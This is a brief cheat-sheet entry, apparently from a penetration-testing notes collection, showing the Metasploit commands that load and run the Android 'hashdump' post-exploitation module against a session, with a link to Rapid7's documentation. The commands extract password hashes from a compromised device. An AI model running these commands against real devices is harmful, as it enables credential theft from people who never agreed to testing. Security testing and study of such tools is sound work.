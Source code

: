# C2 Frameworks
## Metasploit

```
msf > use post/android/gather/hashdump

msf post(android/gather/hashdump) > run session=<session_ID>
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Gather Hashdump Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/android/gather/hashdump.md)